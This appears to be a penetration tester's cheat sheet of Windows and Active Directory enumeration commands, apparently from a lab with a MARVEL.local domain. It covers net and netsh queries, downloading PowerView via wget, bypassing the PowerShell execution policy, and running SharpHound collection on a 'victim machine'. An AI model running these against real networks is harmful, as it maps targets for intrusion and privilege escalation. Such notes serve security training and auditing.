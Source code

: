 **Initial enumeration**
SNMP community string
hostnames
domain name
System
network
passwords
AV

**AD Enumeration**
Users & Admins
SPN
GPO
AD ACLs
Domain Trust



**Basics**
systeminfo
hostname
whoami
echo %username%

**users / localgroups**
net users
net localgroups

**More info about a specific user. Check if user has privileges**
net user user1

**View Domain Groups**
net group /domain

**View Members of Domain Group**
net group /domain <Group Name>

**Firewall**
netsh firewall show state
netsh firewall show config

**Network**
ipconfig /all
route print
arp -A

**How well patched is the system**
wmic qfe get Caption,Description,HotFixID,InstalledOn
	
	
# PowerView

**download wget**
http://gnuwin32.sourceforge.net/packages/wget.htm

download powerview
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Open CMD bypassing execution policy
powershell -ep bypass

luanch PV
. .\powerview.ps1

Enumeration commands 
Get-NetDomain
Get-NetDomainController
Get-DomainPolicy
(Get-DomainPolicy)."system access"
Get-NetUser
Get-NetUser | select cn
Get-NetUser | select samaccountname
Get-NetUser | select description
Get-UserProperty
Get-UserProperty -Properties pwdlastset
Get-UserProperty -Properties logoncount
Get-UserProperty -Properties badpwdcount
Get-NetComputer -FullData
Get-NetComputer -FullData | select OperatingSystem
Get-NetGroup
Get-NetGroup -GroupName "Domain Admins"
Get-NetGroup -GroupName *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Invoke-ShareFinder
Get-NetGPO
Get-NetGPO | select displayname, whenchanged


# Bloodhound

**Attacker machine**
apt install bloodhound
neo4j console


**Victim machine**
powershell .ep bypass

. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip